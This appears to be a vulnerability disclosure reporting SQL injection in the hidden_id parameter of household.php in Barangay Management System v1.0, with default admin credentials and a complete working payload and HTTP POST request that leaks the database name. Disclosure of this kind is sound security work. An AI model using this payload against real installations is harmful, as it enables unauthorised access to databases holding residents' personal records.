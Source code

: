 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/household/household.php

Vulnerability location: /bmis/pages/household/household.php,hidden_id

[+] Payload: hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id

```sql
POST /bmis/pages/household/household.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/household/household.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 153

hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&hiddennum=1&txt_edit_zone=1&txt_edit_totalmembers=&btn_save=Save&table_length=10
```

![image](https://user-images.githubusercontent.com/54017627/173301266-0bbfcb68-a473-4d14-a500-824608daea24.png)

